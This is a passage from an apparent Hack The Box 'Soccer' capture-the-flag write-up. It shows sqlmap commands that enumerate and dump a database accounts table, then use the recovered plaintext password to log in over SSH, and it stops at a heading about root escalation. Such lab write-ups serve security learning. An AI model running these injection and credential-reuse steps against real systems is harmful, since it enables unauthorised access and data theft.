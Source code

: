 #### Use SQLi to list databases
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ sqlmap http://127.0.0.1:8000?id=1 --dbs
<SNIP>
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

#### Use SQLi to list tables in `soccer_db`
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ sqlmap http://127.0.0.1:8000?id=1 -D soccer_db --tables
<SNIP>
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
<SNIP>
```

#### Use SQLi to dump `soccer_db.accounts` table
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ sqlmap http://127.0.0.1:8000?id=1 -D soccer_db -T accounts --dump
<SNIP>
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
<SNIP>
```

#### User discovered credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ ssh player@soccer.htb
player@soccer.htb's password: 
<SNIP>
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```

### Escalate to `root` user via `dstat` plugin run with `doas`
